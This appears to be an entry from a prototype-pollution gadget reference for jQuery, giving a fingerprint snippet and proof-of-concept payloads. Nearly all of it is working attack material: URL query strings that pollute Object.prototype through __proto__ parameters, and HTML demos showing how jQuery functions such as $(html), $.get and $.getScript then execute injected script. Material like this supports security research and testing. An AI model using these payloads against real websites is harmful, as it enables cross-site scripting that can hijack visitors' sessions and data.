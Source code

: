 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

* Can be exploited through String.prototype

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON
* Can be exploited through Boolean.prototype

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.get jQuery all versions

```
?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/1.10.0/jquery.js></script>
<script> 
  Object.prototype.context = '<img/src/onerror=alert(1)>';
  Object.prototype.jquery = 'x';
</script>      
<script>
  jQuery.get('http://google.com/');
</script>
```

#### $.get jQuery >= 3.0.0

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script> 
  Object.prototype.url = 'data:,alert(1)//';
  Object.prototype.dataType = 'script';   
  Object.prototype.crossDomain = '';
</script>      
<script>
  $.get('http://google.com/'); 
  $.post('http://google.com/'); 
</script>
```

